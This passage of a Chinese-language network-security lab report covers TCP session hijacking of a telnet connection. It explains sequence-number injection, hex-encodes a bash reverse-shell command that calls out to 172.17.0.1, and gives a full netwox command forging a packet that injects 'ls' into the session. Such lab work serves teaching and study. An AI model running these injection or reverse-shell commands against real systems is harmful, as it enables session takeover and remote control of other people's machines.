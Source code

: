 <div style="page-break-after:always;"></div>

# 3. `TCP`会话劫持

## 3.1 准备工作及相关命令

使用`Ubuntu-Seed`的`Bless Hex Editor`对指令生成指令对应的`ASCII`编码如下

```shell
# ls 指令的 ASCII 编码
6c73
# /bin/bash -i > /dev/tcp/172.17.0.1/11803 0<&1 2>&1 指令的 ASCII 编码
2F62696E2F62617368202D69203E202F6465762F7463702F3137322E31372E302E312F313138303320303C263120323E2631
```

![3.1.1.获得指令的ASCII编码](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112103222.png)

## 3.2 攻击原理

`TCP`会话劫持攻击的目的是通过向此会话中注入恶意内容来劫持两个受害者之间的现有`TCP`连接（会话）。如果此连接是`telnet`会话，则攻击者可以将恶意命令注入此会话，从而使受害者执行恶意命令。为了伪造`TCP`数据包，应该正确设置序列号。假设接收方已经收到了一些数据，序列号到`x`，下一个序列号应该是`x+1`。如果伪造的数据包不用`x+1`作为序列号，而使用了`x+δ`,这会成为乱序包 。这个包中的数据会被存储在接收方的缓冲区中（只要缓冲区有足够的空间），但是不在空余空间的开端（即`x+1`），而被存储在`x+δ`的位置，也就是在缓冲区中会留下`δ`个空间。伪造的数据虽然存在缓冲区中，但不会交给应用程序，因此暂时没有效果。当空间被后来的数据填满后，伪造包中的数据才会被一起交给应用程序，从而产生影响。如果`δ`太大，就会落在缓冲区可容纳的范围之外，伪造包会因此被丢弃。

## 3.3 利用`netwox`工具进行攻击

### 3.3.1 普通命令

- 该攻击过程中的`Wireshark`数据见`3.1.利用netwox工具进行攻击.pcapng`
- 查看`netwox 40`工具的说明：`netwox 40 --help`
  ![3.3.1.查看netwox 40工具的说明](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112141266.png)
- 首先使用户机使用`telnet`连接服务机，同时使用`Wireshark`截取报文，观察服务机向客户机发送的最后一个报文，根据报文中的源`IP`、源端口、目的`IP`、目的端口、窗口大小，并将报文的`Ack`作为攻击报文的`Seq`、将报文的`Next sequence number`（即`Sequence number + TCP Segment Len`）作为攻击报文的`Ack`构造攻击命令，服务机向客户机发送的最后一个报文如下
  ![3.3.2.服务机向客户机发送的最后一个报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112141009.png)
- 然后攻击机使用`netwox`攻击：`sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 51654 --tcp-dst 23 --tcp-seqnum 3429685672 --tcp-acknum 3928771369 --tcp-ack --tcp-window 227 --tcp-data 0d6c730d00`，其中`0d6c730d00`为`\rls\r`的编码
  ![3.3.3.攻击机使用netwox攻击](pics/3.3.3.攻击机使用netwox攻击.png)
- `scapy`发送的攻击报文如下
  ![3.3.4.scapy发送的攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112142171.png)
- 服务机返回的报文（即指令的运行结果）如下
  ![3.3.5.服务机返回的报文（指令的运行结果）](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112142883.png)
- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？
  - 攻击成功；
  - 用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 期待看到用户机的`telnet`连接卡死（原因为服务机与用户机该`TCP`连接的序号错乱，下同）且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 观察到了用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 是。
